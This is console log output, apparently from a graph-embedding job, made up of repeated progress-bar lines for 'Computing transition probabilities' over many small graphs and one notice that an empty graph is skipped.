Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/15 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/16 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/17 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/8 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/15 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/17 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/6 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/6 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/9 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/6 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/18 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/17 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/15 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/6 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/8 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/16 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/15 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/15 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/17 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/17 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Graph 1006 is empty and will be skipped.


Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/6 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/15 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/6 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/6 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

